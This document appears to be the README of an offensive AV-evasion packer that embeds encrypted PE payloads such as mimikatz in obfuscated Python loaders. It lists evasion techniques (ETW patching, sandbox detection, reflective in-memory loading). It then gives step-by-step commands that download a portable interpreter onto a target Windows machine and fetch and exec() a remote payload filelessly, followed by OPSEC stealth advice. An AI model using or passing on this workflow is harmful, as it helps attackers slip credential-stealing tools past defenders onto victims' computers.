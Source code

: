 ### Invoke-Python-PePacker.py
--------------------------------------
'Invoke-Python-PePacker.py' allows to pack and encrypt offensive PE files (x64 exe) in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated Python script that embeds a compressed and encrypted version of the target PE file, and implements several defense evasion techniques.

#### FEATURES
  - Reflective PE loading using the 'PythonMemoryModule'
  - PE encryption (XOR) and compression (Zlib)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Script obfuscation (Function and variable names are randomized + Nested payloads)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as mimikatz, pplblade, etc.

#### USAGE
- STEP 1. Generate an obfuscated and encrypted Python script that contains your PE file (e.g. mimikatz.exe, pplblade.exe).
          If you want to add arguments to pass to your PE file during its execution in-memory, you need to add them in the script 'Invoke-Python-PePacker.py'
          before running it.
```
Basic example for mimikatz
---------------------------
1. Edit the script 'Invoke-Python-PePacker.py'
   + Example 1 - You want to run mimikatz with the argument 'coffee' 
     > pythonmemorymodule.MemoryModule(data={pe_var}, command =' coffee')
   + Example 2 - You want to run mimikatz (interactively) with no argument
     > pythonmemorymodule.MemoryModule(data={pe_var})

2. Run the script 'Invoke-Python-PePacker.py' to generate an obfuscated Python script that embeds mimikatz
+ C:\path\python-3.10.4> python.exe .\Invoke-Python-PePacker.py ".\mimikatz.exe" ".\obfuscated_script.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated Python script (embeding you offensive PE) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated Python script.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the Python 'MemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated Python script (embeding you offensive PE) on the target
    Windows machine using Python. This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_script.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated Python script locally before execution.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the 'PythonMemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store locally on disk the obfuscated Python script (embeding you offensive PE) before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri https://your-IP-or-website/obfuscated_script.py -OutFile C:\temp\python\obfuscated_script.py"
    C:\temp\python> python.exe .\obfuscated_script.py
```
  - Option C: Use PyInstaller to bundle the obfuscated Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.


#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating the obfuscated Python script (embeding you offensive PE).
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
